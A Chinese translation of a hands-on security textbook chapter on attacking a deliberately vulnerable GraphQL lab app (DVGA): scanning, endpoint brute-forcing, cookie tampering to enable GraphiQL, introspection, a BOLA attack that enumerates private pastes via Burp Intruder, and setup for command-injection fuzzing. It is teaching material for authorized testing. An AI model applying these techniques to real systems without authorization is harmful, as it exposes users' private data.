# 攻击 GraphQL


本章将指导你通过使用我们迄今为止介绍的 API 黑客技术，攻击 Damn Vulnerable GraphQL Application（DVGA）。我们将从主动侦察开始，过渡到 API 分析，并最终尝试对该应用进行各种攻击。

如你所见，我们在本书中一直使用的 RESTful API 与 GraphQL API 之间存在一些主要区别。我将引导你了解这些区别，并演示如何通过将现有的黑客技巧调整为 GraphQL，从而充分利用它们。在这个过程中，你将会感受到如何将你的新技能应用于新兴的 Web API 格式。

你应该将本章视为一个动手实验。如果你想跟着一起操作，确保你的黑客实验室包含 DVGA。有关设置 DVGA 的更多信息，请回到第五章。

## GraphQL 请求与集成开发环境（IDE）

在第二章中，我们介绍了 GraphQL 的一些基本概念。在本节中，我们将讨论如何使用和攻击 GraphQL。在你继续操作时，请记住，GraphQL 更像 SQL 而不是 REST API。由于 GraphQL 是一种查询语言，因此使用它实际上就是对数据库进行查询，只是步骤更多一些。让我们看看清单 14-1 中的请求及其在清单 14-2 中的响应。

```
 POST /v1/graphql
`--snip--`
query products (price: "10.00") {
       name
price
}
```

清单 14-1：一个 GraphQL 请求

```
 200 OK
{
"data": {
"products": [
{
"product_name": "Seat",
"price": "10.00",
"product_name": "Wheel",
"price": "10.00"
}]}
```

清单 14-2：一个 GraphQL 响应

与 REST API 不同，GraphQL API 不使用多个端点来表示资源的位置。相反，所有请求都使用 POST，并发送到一个单一的端点。请求体将包含查询和变更操作，以及请求的类型。

请记得在第二章中提到，GraphQL 的*模式*是数据组织的形式。模式由类型和字段组成。*类型*（`query`、`mutation`和`subscription`）是消费者与 GraphQL 交互的基本方法。尽管 REST API 使用 HTTP 请求方法 GET、POST、PUT 和 DELETE 来实现 CRUD（创建、读取、更新、删除）功能，GraphQL 则使用`query`（用于读取）和`mutation`（用于创建、更新和删除）。我们在本章中不会使用`subscription`，但它本质上是与 GraphQL 服务器建立的连接，允许消费者接收实时更新。实际上，你可以构建一个 GraphQL 请求，同时执行查询和变更操作，在单个请求中同时进行读写。

*查询*以对象类型开始。在我们的例子中，对象类型是`products`。对象类型包含一个或多个字段，提供有关该对象的数据，如我们例子中的`name`和`price`。GraphQL 查询还可以包含括号中的参数，帮助缩小你查找的字段范围。例如，我们示例请求中的参数指定消费者只想要价格为`"10.00"`的产品。

如你所见，GraphQL 对成功的查询做出了回应，并提供了请求的精确信息。许多 GraphQL API 都会对所有请求返回 HTTP 200 响应，不论查询是否成功。而使用 REST API 时，你会收到各种错误响应代码，而 GraphQL 通常会发送 200 响应，并在响应体中包含错误信息。

REST 和 GraphQL 之间的另一个主要区别是，GraphQL 提供商通常会在其 Web 应用程序中提供集成开发环境（IDE）。GraphQL IDE 是一个图形界面，可用于与 API 进行交互。一些最常见的 GraphQL IDE 包括 GraphiQL、GraphQL Playground 和 Altair Client。这些 GraphQL IDE 包含用于编写查询的窗口、提交请求的窗口、响应窗口以及用于引用 GraphQL 文档的方式。

在本章的后面，我们将讨论如何通过查询和变更操作枚举 GraphQL。有关 GraphQL 的更多信息，请查看[`graphql.org/learn`](https://graphql.org/learn)的 GraphQL 指南以及 Dolev Farhi 在 DVGA GitHub Repo 中提供的额外资源。

## 主动侦察

让我们首先主动扫描 DVGA，收集我们能找到的任何信息。如果你是想揭示某个组织的攻击面而不是攻击一个故意存在漏洞的应用程序，你可以先从被动侦察开始。

### 扫描

使用 Nmap 扫描了解目标主机。从以下扫描结果可以看到，5000 端口是开放的，并且在该端口上运行 HTTP，使用的是版本为 1.0.1 的 Werkzeug Web 应用程序库：

```
$ **nmap -sC -sV 192.168.195.132**
Starting Nmap 7.91 ( https://nmap.org ) at 10-04 08:13 PDT
Nmap scan report for 192.168.195.132
Host is up (0.00046s latency).
Not shown: 999 closed ports
PORT      STATE    SERVICE    VERSION
**5000/tcp open **   **http    **  **Werkzeug httpd 1.0.1 (Python 3.7.12)**
**|_http-server-header: Werkzeug/1.0.1 Python/3.7.12**
**|_http-title: Damn Vulnerable GraphQL Application**
```

这里最重要的信息出现在`http-title`中，它给我们一个提示，表明我们正在处理一个 GraphQL 应用程序。在实际环境中你通常找不到这样的提示，所以我们暂时忽略它。你可以在之后进行一次全端口扫描，以便寻找更多的信息。

现在是进行更有针对性的扫描的时候了。让我们使用 Nikto 进行快速的 Web 应用程序漏洞扫描，确保指定 Web 应用程序在 5000 端口上运行：

```
$ **nikto -h 192.168.195.132:5000**
---------------------------------------------------------------------------
+ Target IP:          192.168.195.132
+ Target Hostname:    192.168.195.132
+ Target Port:        5000
---------------------------------------------------------------------------
+ Server: Werkzeug/1.0.1 Python/3.7.12
+ Cookie env created without the httponly flag
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Server may leak inodes via ETags, header found with file /static/favicon.ico, inode: 1633359027.0, size: 15406, mtime: 2525694601
+ Allowed HTTP Methods: OPTIONS, HEAD, GET
+ 7918 requests: 0 error(s) and 6 item(s) reported on remote host
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Nikto 告诉我们，应用程序可能存在一些安全配置错误，例如缺少`X-Frame-Options`和未定义的`X-XSS-Protection`头。此外，我们发现允许使用 OPTIONS、HEAD 和 GET 方法。由于 Nikto 没有发现任何有趣的目录，我们应该在浏览器中查看该 Web 应用程序，看看作为终端用户能发现什么。一旦我们彻底浏览了 Web 应用程序，就可以执行目录暴力攻击，看看是否能找到其他目录。

### 在浏览器中查看 DVGA

正如你在图 14-1 中看到的，DVGA 网页描述了一个故意存在漏洞的 GraphQL 应用程序。

确保像其他用户一样使用该站点，点击网页上的链接。探索“私人粘贴”、“公开粘贴”、“创建粘贴”、“导入粘贴”和“上传粘贴”链接。在这个过程中，你应该开始看到一些有趣的信息，如用户名、包含 IP 地址和`user-agent`信息的论坛帖子、上传文件的链接，以及创建论坛帖子的链接。我们已经收集了一些可能在接下来的攻击中非常有用的信息。



图 14-1：DVGA 登录页面

### 使用开发者工具

现在我们已经作为普通用户浏览了这个网站，让我们通过开发者工具（DevTools）来窥探一下这个 Web 应用程序的内部。要查看此 Web 应用程序涉及的不同资源，请导航到 DVGA 主页，并打开 DevTools 中的网络模块。通过按 ctrl-R 刷新网络模块。你应该会看到类似图 14-2 的界面。



图 14-2：DVGA 主页的网络源文件

查看主资源的响应头。你应该能看到`Set-Cookie: env=graphiql:disable`，这是另一个迹象，表明我们正在与一个使用 GraphQL 的目标进行交互。稍后，我们可能能够操控像这样的 cookie，以启用一个名为 GraphiQL 的 GraphQL 集成开发环境。

回到浏览器中，导航到公共粘贴页面，打开 DevTools 网络模块，并再次刷新（见图 14-3）。



图 14-3：DVGA *public_pastes*源

有一个新的源文件叫做*graphql*。选择这个源并点击预览标签。现在你将看到这个资源响应的预览。GraphQL 和 REST 一样，使用 JSON 作为数据传输的语法。这时，你可能已经猜到这是一个使用 GraphQL 生成的响应。

## 逆向工程 GraphQL API

现在我们知道目标应用程序使用 GraphQL，接下来让我们尝试确定 API 的端点和请求。与 REST API 不同，REST API 的资源可以通过不同的端点访问，而使用 GraphQL 的主机仅依赖单一端点来提供其 API。为了与 GraphQL API 交互，我们必须首先找到这个端点，然后弄清楚我们可以查询哪些内容。

### 针对 GraphQL 端点的目录暴力破解

使用 Gobuster 或 Kiterunner 进行目录暴力破解扫描，可以帮助我们找出是否存在与 GraphQL 相关的目录。让我们使用 Kiterunner 来查找这些目录。如果你手动搜索 GraphQL 目录，可以在请求路径中加入以下关键字：

1.  */graphql*

1.  */v1/graphql*

1.  */api/graphql*

1.  */v1/api/graphql*

1.  */graph*

1.  */v1/graph*

1.  */graphiql*

1.  */v1/graphiql*

1.  */console*

1.  */query*

1.  */graphql/console*

1.  */altair*

1.  */playground*

当然，你也应该尝试将这些路径中的版本号替换为 */v2*、*/v3*、*/test*、*/internal*、*/mobile*、*/legacy*，或者这些路径的任何变体。例如，Altair 和 Playground 都是 GraphiQL 的替代 IDE，你可以通过路径中的不同版本来搜索它们。

SecLists 还可以帮助我们自动化这个目录搜索：

```
$ **kr brute http://192.168.195.132:5000 -w /usr/share/seclists/Discovery/Web-Content/graphql.txt**

GET     400 [     53,    4,   1] http://192.168.195.132:5000/graphiql

GET     400 [     53,    4,   1] http://192.168.195.132:5000/graphql

5:50PM INF scan complete duration=716.265267 results=2
```

我们从这次扫描中得到两个相关的结果；不过，目前它们都回应了一个 HTTP 400 错误请求状态码。让我们在 Web 浏览器中查看它们。*/graphql* 路径解析为一个 JSON 响应页面，页面中显示 `"Must provide query string."` 消息（见 图 14-4）。



图 14-4：DVGA */graphql* 路径

这并没有给我们提供太多信息，所以让我们检查一下 */graphiql* 端点。正如你在 图 14-5 中看到的，*/graphiql* 路径将我们引导到一个常用于 GraphQL 的 Web IDE，GraphiQL。



图 14-5：DVGA GraphiQL Web IDE

然而，我们遇到了 `"400 Bad Request: GraphiQL Access Rejected"` 的消息。

在 GraphiQL Web IDE 中，API 文档通常位于页面右上方，按钮名为 Docs。如果你点击 Docs 按钮，你应该会看到右侧的文档资源管理器窗口，如 图 14-5 所示。这些信息可能有助于构建请求。不幸的是，由于我们的请求错误，我们看不到任何文档。

我们有可能因为请求中的 cookies 而没有授权访问文档。让我们看看是否可以更改我们在 图 14-2 底部看到的 `env=graphiql:disable` cookie。

### 利用 Cookie 篡改来启用 GraphiQL IDE

让我们使用 Burp Suite Proxy 捕获一个请求到 */graphiql*，看看我们在处理什么内容。像往常一样，你可以通过 Burp Suite 将请求代理进行拦截。确保 Foxy Proxy 已开启，然后刷新浏览器中的 */graphiql* 页面。以下是你应该拦截的请求：

```
GET /graphiql HTTP/1.1
Host: 192.168.195.132:5000
*--snip--*
Cookie: language=en; welcomebanner_status=dismiss; continueCode=KQabVVENkBvjq9O2xgyoWrXb45wGnmTxdaL8m1pzYlPQKJMZ6D37neRqyn3x; cookieconsent_status=dismiss; session=eyJkaWZmaWN1bHR5IjoiZWFzeSJ9.YWOfOA.NYaXtJpmkjyt-RazPrLj5GKg-Os; **env=Z3JhcGhpcWw6ZGlzYWJsZQ==**
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0.
```

在检查请求时，你应该注意到 `env` 变量是 base64 编码的。将该值粘贴到 Burp Suite 的解码器中，然后将其解码为 base64。你应该会看到解码后的值为 `graphiql:disable`。这与我们在 DevTools 查看 DVGA 时注意到的值相同。

让我们拿这个值并尝试将其改为`graphiql:enable`。由于原始值是 base64 编码的，让我们将新的值重新编码为 base64（见图 14-6）。



图 14-6：Burp Suite 的解码器

你可以在 Repeater 中测试更新后的 cookie，看看你会收到什么响应。为了在浏览器中使用 GraphiQL，你需要更新浏览器中保存的 cookie。打开开发者工具存储面板以编辑 cookie（见图 14-7）。



图 14-7：开发者工具中的 Cookies

一旦你找到了`env` cookie，双击其值并用新的值替换它。现在返回到 GraphiQL IDE 并刷新页面。你应该能够使用 GraphiQL 界面和文档浏览器。

### 反向工程 GraphQL 请求

虽然我们知道我们想要访问的端点，但我们仍然不知道 API 请求的结构。REST 和 GraphQL API 之间的一个主要区别是，GraphQL 仅使用 POST 请求。

让我们在 Postman 中拦截这些请求，以便更好地操作它们。首先，将浏览器的代理设置为转发流量到 Postman。如果你按照第四章中的设置说明操作，你应该能够将 FoxyProxy 设置为“Postman”。图 14-8 展示了 Postman 的捕获请求和 cookie 页面。 



图 14-8：Postman 的捕获请求和 cookie 页面

现在让我们通过手动访问每个链接并使用我们已发现的每个功能来反向工程这个 Web 应用。点击四周并提交一些数据。使用完这个 Web 应用后，打开 Postman 查看你的集合是什么样子的。你可能已经收集了一些不与目标 API 交互的请求。确保删除所有不包含*/graphiql*或*/graphql*的请求。

然而，正如你在图 14-9 中看到的，即使你删除了所有不涉及*/graphql*的请求，它们的目的仍然不太清晰。事实上，许多请求看起来一模一样。因为 GraphQL 请求完全通过 POST 请求的主体数据来操作，而不是通过请求的端点，因此我们必须检查请求的主体内容，才能了解这些请求的作用。



图 14-9：不明确的 GraphQL Postman 集合

花些时间仔细查看每个请求的主体，然后重新命名每个请求，以便你能理解它的作用。某些请求体可能看起来很复杂；如果是这样，从中提取一些关键信息并给它们一个临时名称，直到你更好地理解它们。例如，考虑以下请求：

```
POST http://192.168.195.132:5000/graphiql?

{"query":"\n  query IntrospectionQuery {\n    __schema {\n      queryType{ name }\n      mutationType { name }\n      subscriptionType { name }\n
**-**-snip--**
```

*这里有很多信息，但我们可以从请求体的开头提取一些细节，并给它命名（例如，Graphiql 查询反射类型）。下一个请求看起来非常相似，但它包含的不是`subscriptionType`，而是只有`types`，因此我们可以根据这个差异给它命名，如图 14-10 所示。*



图 14-10：已清理的 DVGA 集合

现在，你已经有了一个基本的集合可以进行测试。随着你对 API 了解得更多，你将进一步构建你的集合。

在继续之前，我们将介绍另一种逆向工程 GraphQL 请求的方法：通过反射获取模式。

### 使用反射进行 GraphQL 集合的逆向工程

反射是 GraphQL 的一个特性，它向消费者揭示了整个 API 的模式，使其在信息泄露方面成为一座宝矿。因此，你常常会发现反射被禁用，这意味着你需要付出更多的努力来攻击 API。不过，如果你可以查询到模式，就能像找到了 REST API 的集合或规范文件一样操作。

测试反射是否可用非常简单，只需发送一个反射查询。如果你有权限使用 DVGA GraphiQL 界面，可以通过拦截加载*/graphiql*时发出的请求来捕获反射查询，因为 GraphiQL 界面在填充文档浏览器时会发送反射查询。

完整的反射查询相当大，因此我这里只包含了一部分；不过，你可以通过自己拦截请求或在 Hacking APIs GitHub 仓库中查看完整查询，网址为[`github.com/hAPI-hacker/Hacking-APIs`](https://github.com/hAPI-hacker/Hacking-APIs)。

```
 query IntrospectionQuery {
    __schema {
      queryType { name }
      mutationType { name }
      subscriptionType { name }
      types {
        ...FullType
      }
      directives {
        name
        description
        locations
        args {
          ...InputValue
        }
      }
    }
  }
```

成功的 GraphQL 反射查询会向你提供模式中包含的所有类型和字段。你可以使用该模式来构建 Postman 集合。如果你使用的是 GraphiQL，查询将填充 GraphiQL 文档浏览器。正如你在接下来的章节中会看到的，GraphiQL 文档浏览器是一个用于查看 GraphQL 文档中可用的类型、字段和参数的工具。

## GraphQL API 分析

到目前为止，我们知道可以向 GraphQL 端点和 GraphiQL 界面发送请求。我们还反向工程了几个 GraphQL 请求，并通过成功的自省查询获得了 GraphQL 架构的访问权限。让我们使用文档浏览器查看是否有任何我们可以利用的资料进行利用。

### 使用 GraphiQL 文档浏览器构建请求

拿出我们从 Postman 反向工程的请求之一，例如用于生成 *public_pastes* 网页的公共粘贴请求，并使用 GraphiQL IDE 进行测试。使用文档浏览器帮助您构建查询。在 **Root Types** 下选择 **Query**。您应该看到与 图 14-11 中显示的选项相同。



图 14-11：GraphiQL 文档浏览器

使用 GraphiQL 查询面板，输入 `query` 后跟花括号以启动 GraphQL 请求。现在通过在 `query` 下添加 `pastes` 并使用括号作为参数 `public: true` 来查询公共粘贴字段。由于我们想了解更多关于公共粘贴对象的信息，我们需要在查询中添加字段。我们向请求中添加的每个字段都会告诉我们更多关于该对象的信息。为此，在文档浏览器中选择 **PasteObject** 查看这些字段。最后，添加您希望包含在请求正文中的字段，并以新行分隔。您包含的字段代表您应该从提供者那里接收到的不同数据对象。在我的请求中，我将添加 `title`、`content`、`public`、`ipAddr` 和 `pId`，但也可以尝试添加您自己的字段。完成的请求正文应该如下所示：

```
query {
pastes (public: true) {
 title
     content
     public
     ipAddr
     pId
  }
}
```

使用 **Execute Query** 按钮或快捷键 ctrl-enter 发送请求。如果您跟随操作，应该会收到如下响应：

```
{
  "data": {
    "pastes": 
      {
        "id": "UGFzdGVPYmplY3Q6MTY4",
        "content": "testy",
        "ipAddr": "192.168.195.133",
        "pId": "166"
      },
      {
        "id": "UGFzdGVPYmplY3Q6MTY3",
        "content": "McTester",
        "ipAddr": "192.168.195.133",
        "pId": "165"
      }
   }
}
```

现在您已经了解了如何使用 GraphQL 请求数据，让我们转到 Burp Suite，并使用一个很棒的扩展来帮助我们完善在 DVGA 中可以做的事情。

### 使用 InQL Burp 扩展

有时，您可能找不到适用于目标的 GraphiQL IDE。幸运的是，有一个很棒的 Burp Suite 扩展可以帮助我们。InQL 作为 Burp Suite 中的 GraphQL 接口。要安装它，像在上一章中为 IP Rotate 扩展所做的那样，您需要在 Extender 选项中选择 Jython。有关 Jython 安装步骤，请参见第十三章。

安装 InQL 后，选择 InQL 扫描器并添加您要针对的 GraphQL API 的 URL（参见 [图 14-12）。

扫描器将自动查找各种查询和变更并将它们保存到文件结构中。然后，您可以选择这些保存的请求并将它们发送到 Repeater 进行进一步测试。



图 14-12：Burp Suite 中的 InQL 扫描模块

让我们练习测试不同的请求。`paste.query` 是一个查询，用于根据粘贴 ID（pID）代码查找粘贴。如果你在 Web 应用程序中发布了任何公共粘贴，你可以看到你的 pID 值。如果我们通过请求本应私密的 pID 字段进行授权攻击，会发生什么呢？这将构成 BOLA 攻击。由于这些粘贴 ID 似乎是连续的，我们需要测试是否存在任何授权限制，防止我们访问其他用户的私密粘贴。

右键点击 `paste.query` 并将其发送到 Repeater。通过将 `code*` 值替换为应有效的 pID 来编辑它。我将使用之前收到的 pID 166。使用 Repeater 发送请求。你应该会收到如下响应：

```
HTTP/1.0 200 OK
Content-Type: application/json
Content-Length: 319
Vary: Cookie
Server: Werkzeug/1.0.1 Python/3.7.10

{
  "data": {
    "paste": {
      "owner": {
        "id": "T3duZXJPYmplY3Q6MQ=="
      },
      "burn": false,
      "Owner": {
        "id": "T3duZXJPYmplY3Q6MQ=="
      },
      "userAgent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Firefox/78.0",
      "pId": "166",
 "title": "test3",
      "ownerId": 1,
      "content": "testy",
      "ipAddr": "192.168.195.133",
      "public": true,
      "id": "UGFzdGVPYmplY3Q6MTY2"
    }
  }
}
```

果然，应用程序回应了我之前提交的公共粘贴。

如果我们能够通过 pID 请求粘贴，也许我们可以暴力破解其他 pID 来看看是否有授权要求，阻止我们请求私密粘贴。将图 14-12 中的粘贴请求发送到 Intruder，然后将 pID 值设置为有效负载位置。将有效负载更改为从 0 开始到 166 的数字值，然后启动攻击。

审查结果显示我们已经发现了 BOLA 漏洞。我们可以看到我们已收到私密数据，如 `"public": false` 字段所示：

```
{
  "data": {
    "paste": {
      "owner": {
        "id": "T3duZXJPYmplY3Q6MQ=="
      },
      "burn": false,
      "Owner": {
        "id": "T3duZXJPYmplY3Q6MQ=="
      },
      "userAgent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Firefox/78.0",
      "pId": "63",
      "title": "Imported Paste from URL - b9ae5f",
      "ownerId": 1,
      "content": "<!DOCTYPE html>\n<html lang=en> ",
      "ipAddr": "192.168.195.133",
      **"public": false,**
      "id": "UGFzdGVPYmplY3Q6NjM="
    }
  }
}
```

我们能够通过请求不同的 pID 来检索每一个私密粘贴。恭喜，这是一个很棒的发现！让我们看看还能发现些什么。

## 命令注入的模糊测试

现在我们已经分析了 API，接下来让我们进行模糊测试，看看是否能发现漏洞进行攻击。模糊测试 GraphQL 可能会增加额外的挑战，因为大多数请求即使格式不正确，也会返回 200 状态码。因此，我们需要寻找其他成功的指示符。

你会在响应体中发现任何错误，需要通过查看响应来构建这些错误的基准。检查错误是否都生成相同的响应长度，例如，或者是否在成功响应和失败响应之间有其他显著差异。当然，你还应该查看错误响应，查找可能有助于攻击的信息泄露。

由于查询类型本质上是只读的，我们将攻击变更请求类型。首先，让我们拿一个变更请求，比如我们 DVGA 集合中的 `Mutation ImportPaste` 请求，并使用 Burp Suite 对其进行拦截。你应该看到一个类似于图 14-13 的界面。



图 14-13：一个拦截的 GraphQL 变更请求

将此请求发送到 Repeater，以查看我们应该期望看到的响应类型。你应该会收到如下所示的响应：

```
HTTP/1.0 200 OK
Content-Type: application/json
*--snip--*

{"data":{"importPaste":{
"result":"<HTML><HEAD><meta http-equiv=\"content-type\"content=\"text/html;charset=utf-8\">\n<TITLE>301 Moved</TITLE></HEAD><BODY>\n<H1>301 Moved</H1>\nThe document has moved\n<AHREF=\"**http://www.google.com**/\">here</A>.\n</BODY></HTML>\n"}}}
```

我恰好使用 [`www.google.com/`](http://www.google.com/) 作为我导入粘贴内容的 URL 来测试请求；你可能在请求中使用了不同的 URL。

现在我们大致了解了 GraphQL 的响应方式，让我们将此请求转发给 Intruder。仔细查看请求的主体：

```
{"query":"mutation ImportPaste ($host: String!, $port: Int!, $path: String!, $scheme: String!) {\n        importPaste(host: $host, port: $port, path: $path, scheme: $scheme) {\n
result\n        }\n        }","variables":{"host":"google.com","port":80,"path":"/","scheme":"http"}}
```

请注意，此请求包含变量，每个变量前面都有 `$`，后面跟着 `!`。相应的键和值位于请求的底部，跟随 `"variables"`。我们将在这里放置有效载荷位置，因为这些值包含可能传递给后台进程的用户输入，使它们成为模糊测试的理想目标。如果这些变量缺乏良好的输入验证控制，我们就能检测到漏洞并可能利用这个弱点。我们将在这些变量部分放置我们的有效载荷位置：

```
"variables":{**"****host****":"****google.com§test§§test2§****"**,"port":80,"path":"/","scheme":"http"}}
```

